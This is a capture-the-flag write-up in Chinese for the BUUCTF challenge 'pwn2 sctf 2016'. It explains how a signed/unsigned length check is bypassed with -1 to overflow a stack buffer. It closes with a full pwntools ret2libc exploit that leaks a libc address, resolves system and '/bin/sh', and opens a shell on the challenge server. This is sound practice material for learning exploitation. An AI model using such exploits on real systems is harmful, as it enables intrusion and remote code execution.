 ```yaml
---
author: 
  name: Zephyr
title: pwn2 sctf 2016
date: 2022-3-23 8:25:03
permalink: /pages/2e1547494524d195
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# pwn2 sctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwn2_sctf_2016/pwn2_sctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  return vuln();
}
```

vuln函数如下

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

get_n函数如下

```c
int __cdecl get_n(int a1, unsigned int a2)
{
  int v2; // eax
  int result; // eax
  char v4; // [esp+Bh] [ebp-Dh]
  unsigned int v5; // [esp+Ch] [ebp-Ch]

  v5 = 0;
  while ( 1 )
  {
    v4 = getchar();
    if ( !v4 || v4 == 10 || v5 >= a2 )
      break;
    v2 = v5++;
    *(_BYTE *)(v2 + a1) = v4;
  }
  result = a1 + v5;
  *(_BYTE *)(a1 + v5) = 0;
  return result;
}
```



## 思路分析

1. 目前信息：
   - get_n函数的第二次调用时若能控制v2参数即可实现任意长度写入
   - 而v2参数是由第一次get_n调用时处理的
   - get_n函数顾名思义为向第一个参数内写入第二个参数长度的数据
   - 第一次输入的数据将被转换为int值，该值并不允许大于32，造成长度太短，无法控制程序执行流
   - if判断是有符号类型，get_n的控制写入数据长度参数的数据类型为无符号类型
   - No PIE
2. 思路：
   - 利用有无符号类型的区别，首次输入为负数内容绕过if判断，例如-1，这是该值将会以无符号数的读取方式成为第二次输入数据的长度，为溢出提供条件，后续就是常规的ret2libc

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwn2_sctf_2016/pwn2_sctf_2016'
io = remote('node4.buuoj.cn', 25697)
# io = process(pwnfile)
elf = ELF(pwnfile)
printf_plt = elf.plt['printf']
libc_start_main_got = elf.got['__libc_start_main']
offset = 44+4
pop_ret = 0x0804835d
vuln_addr = elf.symbols['vuln']
io.sendlineafter('me to read?', '-1')
payload = flat(['a'*offset, printf_plt, pop_ret,libc_start_main_got, vuln_addr])
io.sendlineafter('bytes of data!\n', payload)
io.recvuntil('\n')
leak_libc_start_main = u32(io.recvuntil('How many bytes do you want me to read?', drop=True))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libcbase = leak_libc_start_main-libc.dump('__libc_start_main')
system = libcbase+libc.dump('system')
bin_sh = libcbase+libc.dump('str_bin_sh')
io.sendline('-1')
payload = flat(['a'*offset, system, 0xdeadbeef, bin_sh])
io.sendlineafter('bytes of data!\n', payload)
io.interactive()
```